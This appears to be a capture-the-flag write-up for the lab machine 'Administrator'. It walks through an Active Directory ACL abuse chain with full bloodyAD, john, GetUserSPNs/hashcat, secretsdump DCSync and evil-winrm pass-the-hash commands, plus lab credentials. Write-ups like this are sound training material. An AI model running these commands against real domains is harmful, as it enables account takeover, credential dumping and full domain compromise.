<p style="text-align:center">
  
</p>

<p>
  
  
  
</p>

> **TL;DR** - An assumed-breach Active Directory box starting with `Olivia:ichliebedich`. BloodHound maps an ACL chain: Olivia has `GenericAll` over Michael, Michael can `ForceChangePassword` on Benjamin, and Benjamin (in `Share Moderators`) can reach an FTP backup. That backup is a Password Safe vault, cracked to reveal mid-chain users, one of whom (Emily) has `GenericWrite` over Ethan. A targeted Kerberoast against Ethan cracks his password, and Ethan holds `DCSync` rights, so `secretsdump` dumps every hash and a pass-the-hash as Administrator finishes the box.

---

## Recon

The box is assumed-breach, handing us initial credentials `Olivia:ichliebedich`. Those will feed a BloodHound collection later, but first a full nmap scan.

```bash
nmap -sV -sC -p- -oA nmap/administrator 10.129.72.195
```



The scan confirms a Domain Controller. FTP (21) is open, and since we already have credentials, I tried the low-hanging fruit first.



Olivia can't log into FTP, so I pivoted to BloodHound to map what her account can actually do.

```bash
bloodhound-python -u olivia -p ichliebedich -ns 10.129.72.195 -d administrator.htb -c all
```



---

## Lateral movement - the ACL chain

On an assumed-breach AD box with no obvious service exploit, the path is almost always ACL abuse. The routine: ingest into BloodHound, then for each account I own, check its Outbound Object Control, the rights it holds over other principals. Each edge is a hop.

### Olivia → Michael (GenericAll)

Olivia has `GenericAll` over Michael, total control of the object, including resetting his password.



```bash
bloodyAD --host "10.129.72.195" -d "administrator.htb" -u "olivia" -p "ichliebedich" set password "michael" "password123"
```



Confirmed with netexec.



Michael can WinRM, so we get an interactive session.





### Michael → Benjamin (ForceChangePassword)

Nothing useful on Michael's host, so back to BloodHound. Michael has `ForceChangePassword` over Benjamin.



```bash
bloodyAD --host "10.129.72.195" -d "administrator.htb" -u "michael" -p "password123" set password "benjamin" "password123"
```



### Benjamin → FTP backup → Password Safe vault

Benjamin is in a non-default group, `Share Moderators`, which hinted at access to that FTP server from the start. This time the login worked, and there was a `Backup.psafe3` waiting.



A `.psafe3` is a Password Safe vault, password-protected. I cracked it with `pwsafe2john` and john.

```bash
pwsafe2john Backup.psafe3 > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```



The master password was `tekieromucho`. Opening the vault revealed three users with passwords:

- `alexander:UrkIbagoxMyUGw0aPlj9B0AXSea4Sw`
- `emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb`
- `emma:WwANQWnmJnGV07WQN8bMS7FMAbjNur`

Three sets of creds, but they're not equal, the useful one is whichever sits closest to Domain Admin in the graph. BloodHound showed Emily has `GenericWrite` over Ethan, and Ethan has a path to full domain control. Emily is the pivot.



---

## Privilege Escalation

### Emily → Ethan (targeted Kerberoasting)

With `GenericWrite` over Ethan, I can write a Service Principal Name onto his account, making him Kerberoastable, then request and crack his ticket (a targeted Kerberoast).

```bash
bloodyAD --host 10.129.72.195 -d administrator.htb -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' set object 'ETHAN' servicePrincipalName -v 'cifs/gzzcoo'
```



```bash
GetUserSPNs.py administrator.htb/emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb -dc-ip 10.129.72.195 -request -outputfile hashes.kerberoast
```

Kerberos rejects tickets if your clock drifts too far from the DC, so if `GetUserSPNs.py` throws `KRB_AP_ERR_SKEW`, sync first:

```bash
sudo rdate -n 10.129.72.195
```

Then crack with hashcat:

```bash
hashcat -m 13100 -a 0 hashes.kerberoast /usr/share/wordlists/rockyou.txt
```



Ethan's password is `limpbizkit`, validated with netexec.



### user.txt

Grabbed via evil-winrm.



### Ethan → Domain (DCSync)

Ethan's Outbound Object Control shows `GetChanges` and `GetChangesAll` over the domain, the rights needed to perform a **DCSync**, replicating password hashes straight from the DC.



```bash
secretsdump.py -outputfile 'dcsync' -dc-ip "10.129.72.195" "administrator/ethan:limpbizkit@administrator.htb"
```



That dumps every account's NT hash, including Administrator. A pass-the-hash logs us in as Administrator.

```bash
evil-winrm -i 10.129.72.195 -u Administrator -H <admin_NT_hash>
```

### root.txt



---

## Conclusion

Administrator is a pure Active Directory ACL box, and a really clean one. There's no exploit anywhere, every hop is a misconfigured right that BloodHound hands you if you read the graph. The chain (`GenericAll` → `ForceChangePassword` → group access → vault crack → `GenericWrite` → targeted Kerberoast → `DCSync`) is a tour of the most common privilege-abuse edges you'll meet in real engagements.

The takeaway: on any AD foothold, work the BloodHound graph methodically. For each principal you own, read its Outbound Object Control and treat every edge as a hop toward Domain Admin. `GenericWrite` on a user is a targeted Kerberoast; `GetChanges`/`GetChangesAll` is game over via DCSync.

---

## Kill chain summary

| Phase              | Vector                                              | Result                              |
| ------------------ | --------------------------------------------------- | ----------------------------------- |
| Recon              | nmap + BloodHound (assumed breach `Olivia`)         | DC `administrator.htb`, ACL graph   |
| Olivia → Michael   | `GenericAll` → bloodyAD password reset              | Michael (WinRM)                     |
| Michael → Benjamin | `ForceChangePassword`                               | Benjamin (`Share Moderators`)       |
| Benjamin → Emily   | FTP `Backup.psafe3` → `pwsafe2john` crack           | Vault creds (alexander/emily/emma)  |
| Emily → Ethan      | `GenericWrite` → targeted Kerberoast → hashcat      | `ethan:limpbizkit` - user.txt       |
| Ethan → Domain     | `GetChanges`/`GetChangesAll` → DCSync → PtH         | Administrator - root.txt            |

## References

- BloodHound ACL edges - https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html
- Targeted Kerberoasting (GenericWrite SPN) - https://www.thehacker.recipes/ad/movement/kerberos/kerberoast
- DCSync - https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync
- bloodyAD - https://github.com/CravateRouge/bloodyAD